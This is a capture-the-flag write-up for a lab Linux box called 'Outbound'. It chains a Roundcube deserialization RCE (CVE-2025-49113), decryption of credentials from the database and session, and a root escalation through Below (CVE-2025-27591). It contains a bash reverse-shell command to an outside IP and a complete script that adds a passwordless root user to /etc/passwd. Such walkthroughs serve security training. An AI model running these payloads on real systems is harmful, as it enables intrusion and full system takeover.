Outbound is a easy-difficulty Linux box that starts with credentials to access a Roundcube webmail instance. The box demonstrates a chain of vulnerabilities including CVE-2025-49113 (Roundcube RCE), database credential extraction, password decryption, and privilege escalation via CVE-2025-27591 by using the Below monitoring tool.
Enumeration
Initial TCP Scan
nmap -sCV -v -p- 10.10.11.77

The scan shows:
- SSH (22/tcp)
- HTTP (80/tcp): With redirect to
mail.outbound.htb
Make sure to add the hostname/redirect to /etc/hosts:
Web App Analysis
Visiting http://mail.outbound.htb presents a Roundcube webmail login interface. Using the provided credentials tyler:LhKL1o9Nm3X2, we can successfully authenticate and look around the application.
After logging in and looking around, I navigate to the “About” section to identify the application version. The information this page reveals is crucial for identifying an exploit that will be used to gain an initial foothold.

Initial Foothold
With the Roundcube version identified as 1.6.10, we can search for known vulnerabilities affecting this version. This leads to the discovery of CVE-2025-49113, a post-authentication RCE vulnerability affecting Roundcube versions ≤ 1.6.10.
This exploit works by abusing the insecure PHP object deserialization within the application. Fundamentally, this exploit tricks Roundcube into loading a fake settings file that contains hidden code. When Roundcube reads (deserializes) that file, it also runs the hidden code, letting us execute commands on the server. If you want a more detailed explanation about this CVE, please refer to the technical breakdown and exploit repository below.
References:
Exploitation Process
First, we clone the exploit repository:
git clone https://github.com/fearsoff-org/CVE-2025-49113
cd CVE-2025-49113
Next, we set up a netcat listener to catch the reverse shell. However, if this was a real-word environment we would not be using netcat because the traffic being sent back and forth is unencrypted.
sudo nc -lvnp 4444
Finally, we execute the exploit:
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 'bash -c "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"'

The exploit succeeds, granting a reverse shell. However, after some quick system enumeration we can see that we are within a docker environment rather than the host system. There could still be valuable information within this docker container, so it’s good to look for low hanging fruit before trying to find specific docker exploits.

Container Enumeration
Within the container, we can find the Roundcube configuration files in /var/www/html/roundcube/config/config.inc.php. This reveals the following critical information:
Database Credentials:

DES Encryption Key:

(The DES key is a symmetric key, which the server uses to encrypt and decrypt data stored in a user session. If we come across anyones session we can use this to decrypt sensitive data that is stored within the session.)
Using the discovered database credentials from above, we can enumerate the MySQL database in the container.

Looking through the session table, we can see different session data that is Base64-encoded.

Going from top to bottom, I started decoding the session data in CyberChef. After decoding a few different sessions. I discovered information related to another user account. Including a username and encrypted password:
- Username:
jacob - Encrypted Password:
L7Rv00A8TuwJAr67kITxxcSgnIk25Am/

Taking the encrypted password from the session data above, and the DES key that was found earlier, we can use a Roundcube decryption tool to decrypt the password.
git clone https://github.com/m1nhn/roundcube-password-decryptor
cd roundcube-password-decryptor


This gives us credentials for Jacob’s Roundcube account: jacob:595mO8DmwGeD
Something interesting to note about this is that the password is stored within the session. The thing is, Roundcube is just a web interface, it acts as a bridge between SMTP (for sending emails) and IMAP (for retrieving/storing emails). SMTP only needs one set of credentials, but IMAP has user specific credentials for each mailbox. Because Roundcube needs a plaintext password to authenticate with the IMAP server each time it checks for mail, Roundcube encrypts the password in the session so that it can be decrypted when needed and then thrown away when done. This is not possible with hashing, because hashing is a one-way process.
To Further emphasize that Roundcube is just a web interface, running ss -tulpn can let us see that IMAP is running on port 143, which matches Roundcube’s config file (imap_host = localhost:143). SMTP would be running on port 587 (smtp_host = localhost:587), but because this is a simulated environment, SMTP was most likely not set up.


Web App Analysis Part 2
Even though we have Jacobs session credentials, it’s still good to see if we can SSH into the machine in case of password reuse. In this case, Jacob did not reuse his password. So we move on to logging into Jacob’s Roundcube account, where we can find two emails containing the following information:
- System Access Credentials: The emails reveal Jacob’s system login password:
gY4Wr3a1evp4

- Application Access: Jacob has been granted privileges to use a resource monitoring application called “Below”

With these credentials (jacob:gY4Wr3a1evp4), we can now SSH directly to the target system, escaping the container environment and reaching the host system.

Out of curiosity I tried to see if it was possible to access the email files directly without needing to decrypt the session in the first place. I navigated to /var/mail and there was jacobs file. However, even though jacob and the mail group have read write (rw) privileges, anyone that is not in those groups will have no permissions. This further emphasizes that we needed the credentials from jacobs login session.

Privilege Escalation
The first thing we want to do when we compromise a machine is to run the following commands:
whoami-> what user am I running as?groups-> what groups do I have access to? How could I take advantage of my current group?uname -a-> what is the current version of this OS? Is there a privesc vuln?ss -tulpn-> what services are currently running on this machine? Can it be abused or used?sudo -l-> what privileges do I have? How can I abuse them?
After running those commands, we were able to confirm that Jacob does have sudo privileges. Specifically, /usr/bin/below can be run with sudo privileges, but with restrictions on the following flags (*, --config*, --debug*, -d*). This is important because running groups shows us that Jacob is not part of the sudo group, meaning he would normally not be able to run these commands, but because of the NOPASSWD config on his binary Jacob can still run it as root.

After running Below with sudo privileges, we can see that Below is running on version 0.8.0

CVE-2025-27591
Researching vulnerabilities for Below version 0.8.0 leads to CVE-2025-27591, which affects versions ≤ 0.8.1. This vulnerability is caused by the way Below handles its log files in /var/log/below, which is world-writable. We as the attacker, create a symlink that points error_root.log to /etc/passwd. When Below runs as root, it will overwrite the target file, allowing us to add a root level user and gain full system access. If you want a less general and more technical breakdown, you can look at the references below:
References:
-
Exploit Repository (at the time of solve, the exploit PoC in the repo did not work)
Exploit Development
Based on the CVE research and available PoC, I plugged the two resources into ChatGPT and develop an automated exploit script.
#!/bin/bash
# CVE-2025-27591 - Below Privilege Escalation (HTB PoC)
# Author: ChatGPT (adapted for HTB CTF)
TARGET="/etc/passwd"
SYMLINK="/var/log/below/error_root.log"
USER="pwn"
PASS_ENTRY="${USER}::0:0:root:/root:/bin/bash"
echo "[*] Checking system protections..."
# Check if protected_symlinks is enabled
if [ -f /proc/sys/fs/protected_symlinks ]; then
SYM=$(cat /proc/sys/fs/protected_symlinks)
if [ "$SYM" -ne 0 ]; then
echo "[!] protected_symlinks is enabled, but exploitation may still work because file is
removed first."
else
echo "[*] protected_symlinks disabled, exploit easier."
fi
else
echo "[*] protected_symlinks not present (good)."
fi
echo "[*] Preparing malicious symlink..."
rm -f "$SYMLINK"
ln -s "$TARGET" "$SYMLINK" || { echo "[!] Failed to create symlink"; exit 1; }
echo "[*] Triggering vulnerable Below service..."
sudo /usr/bin/below snapshot --begin now 2>/dev/null || true
echo "[*] Checking if $TARGET is now world-writable..."
if [ -w "$TARGET" ]; then
echo "[+] Success! $TARGET is writable. Adding root user..."
echo "$PASS_ENTRY" >> "$TARGET"
echo "[+] User added. Spawning root shell..."
su $USER
else
echo "[!] Exploit failed: $TARGET is not writable. Maybe service didn’t run or protections in
place."
Fi
I save the script as exploit.sh, made it executable, and run it to get a root shell.

Summary
The Outbound box demonstrates a realistic attack chain combining multiple vulnerabilities:
- Initial Access: Exploited CVE-2025-49113 in Roundcube 1.6.10 for container access
- Credential Discovery: Extracted database credentials from configuration files
- Password Decryption: Decrypted session passwords using Roundcube’s DES key
- Lateral Movement: Used decrypted credentials to access the host system via SSH
- Privilege Escalation: Exploited CVE-2025-27591 in Below 0.8.0 for root access